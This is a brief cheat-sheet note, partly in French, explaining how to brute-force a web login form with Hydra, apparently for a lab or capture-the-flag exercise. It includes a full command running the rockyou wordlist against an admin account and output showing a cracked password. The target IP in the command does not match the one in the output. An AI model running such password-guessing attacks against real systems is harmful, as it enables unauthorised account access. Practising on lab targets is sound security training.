 EXPLAIN: 

sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
-l -L      username to attack with  - OR -  list of username
-p -P      password to attack with   - OR -  list of passwd
-f  -F     exit quand une paire est trouvée - OR - trouvées. 

<Method>            : http-get-form 
<Path>              : /index.php
<RequestBody>       : page=signin&username=^USER^&password=^PASS^&Login=Login
                      ^SMTHG ^ va dire à Hydra d’entrer les mots de la liste à la place.
<IncorrectVerbiage> : images/WrongAnswer.gif

hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz -f 192.168.1.87 http-get-form '/index.php:page=signin&username=admin&password=^PASS^&Login=Login:images/WrongAnswer.gif'

[80][http-get-form] host: 192.168.1.17 login: admin password: shadow
